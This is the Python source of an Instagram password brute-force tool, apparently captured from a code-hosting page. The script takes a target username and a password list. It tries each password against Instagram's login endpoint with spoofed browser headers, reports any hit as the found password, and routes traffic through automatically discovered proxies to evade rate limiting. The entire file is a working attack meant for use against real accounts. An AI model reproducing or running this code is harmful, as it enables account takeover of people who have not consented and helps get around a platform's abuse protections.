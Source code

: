 #page
import argparse
import requests
import os
import codecs

import socket
import socks

import asyncio
from proxybroker import Broker

#args parser
parser = argparse.ArgumentParser()
parser.add_argument('username', help='Instagram username of the user you want to attack')
parser.add_argument('passwords_file', help='A passwords file for the software')
args = parser.parse_args()
if not os.path.exists(args.passwords_file):
exit('[*] Sorry, can\'t find file named "%s"' % args.passwords_file)

#help functions
#remove empty lines and duplicates
def cleanList(items):
newList = []
for x in items:
if not (x == None or x == ''):
if not x in newList:
newList.append(x)
return newList

#main class - Instagram bruteforce
class Instabrute():
def __init__(self, username, passwords):
self.username = username
if not self.userExists():
exit('[*] Can\'t find user named "%s"' % self.username)

self.passwords = passwords

self.attempts = 0

def userExists(self):
r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username)
if r.status_code == 404:
return False
elif r.status_code == 200:
return True
else:
return False

def _next(self):
#add 1 attempt to the counter
self.attempts += 1
#remove the first password (the current)
self.passwords.pop(0)
#try the next password
self.login()

def login(self):
sess = requests.Session()

#requests headers and cookies
sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
sess.headers.update({
'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.167 Safari/537.36',
'x-instagram-ajax':'1',
'X-Requested-With': 'XMLHttpRequest',
'origin': 'https://www.instagram.com',
'ContentType' : 'application/x-www-form-urlencoded',
'Connection': 'keep-alive',
'Accept': '*/*',
'Referer': 'https://www.instagram.com',
'authority': 'www.instagram.com',
'Host' : 'www.instagram.com',
'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
'Accept-Encoding' : 'gzip, deflate'
})

#update csrf token for the first time
sess.headers.update({'X-CSRFToken' : sess.get('https://www.instagram.com/').cookies.get_dict()['csrftoken']})

#try to login
r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={
'username':self.username,
'password':self.passwords[0]
}, allow_redirects=True)

if 'authenticated' in r.text:
if r.json()['authenticated']:
exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
#update csrf token after login try (if you want to keep the session)
#sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
else:
print ('[%s] Can\'t login with "%s"' % (str(self.attempts+1), self.passwords[0]))
#try the next password
self._next()
else:
if 'message' in r.text:
if r.json()['message'] == 'Please wait a few minutes before you try again.':
pass #Do you want to wait or use proxy?
elif r.json()['message'] == 'checkpoint_required':
exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
else:
print ('[MESSAGE] %s' % r.json()['message'])
else:
print (r.text)

#find proxy
async def proxything(proxies):
while True:
proxy = await proxies.get()
if proxy is None: break
print('[*] Found proxy: %s' % proxy)
socks.set_default_proxy(socks.HTTP, proxy.host, proxy.port)
socket.socket = socks.socksocket
proxies = asyncio.Queue()
asyncio.get_event_loop().run_until_complete(asyncio.gather(Broker(proxies).find(types=['HTTPS', 'HTTP'], limit=1), proxything(proxies)))

#main action
with codecs.open(args.passwords_file, 'r', 'utf-8') as file:
passwords = file.read().splitlines()
if len(passwords) < 1:
exit('[*] The file is empty')
else:
passwords = cleanList(passwords)
print ('[*] %s passwords loaded successfully' % len(passwords))

bruteforce = Instabrute(args.username, passwords)
bruteforce.login()

